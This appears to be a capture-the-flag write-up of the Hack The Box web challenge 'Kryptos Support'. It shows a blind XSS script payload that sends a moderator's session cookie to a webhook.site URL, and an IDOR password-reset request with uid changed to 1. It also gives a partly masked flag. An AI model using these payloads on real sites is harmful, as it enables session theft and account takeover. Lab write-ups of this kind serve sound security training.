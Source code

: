 
# 🧪 Challenge Name: `Kryptos Support`

**Platform:** Hack The Box (Challenge)  
**Difficulty:** Medium

---

## 🧭 Overview

Kryptos Support is a web challenge that involves chaining a Blind XSS vulnerability to hijack a moderator session and then abusing an Insecure Direct Object Reference (IDOR) to reset the administrator password. It’s highly relevant to CBBH prep, as it practices cookie exfiltration and API parameter tampering.

---

## 🔍 Recon & Functionality

- Landing page: `/` with a simple ticket submission form
- Backend login panel at `/login`
- Suspected XSS injection point in the ticket message form

---

## 🚨 Exploitation Steps

### 1. 🧪 Blind XSS for Moderator Access

Submitted the following payload in the message field:

```html
<script>
  new Image().src="http://webhook.site/abc123?c="+document.cookie;
</script>
```

- ✅ Payload executed by a moderator reviewing tickets
- ✅ Session cookie exfiltrated to webhook.site

Set stolen cookie in browser → Visited `/admin` → Gained access to `/tickets`

---

### 2. 🔓 IDOR for Admin Takeover

Visited `/settings`, and intercepted the following request during password change:

```json
{
  "uid": 10,
  "newpassword": "hackedpass"
}
```

Modified `uid` to `1`:

```json
{
  "uid": 1,
  "newpassword": "hackedpass"
}
```

- ✅ Successfully reset admin password
- ✅ Logged in as `admin` with new password
- ✅ Captured flag

---

## 🏁 Flags

- **Flag:** `HTB{p0pp1ng_x55_4nd_id0********}`

---

## 🧠 Lessons Learned

- How to exfiltrate cookies via blind XSS using webhook tools
- How to detect and abuse IDOR by manipulating user ID parameters
- Importance of securing admin endpoints and validating access control
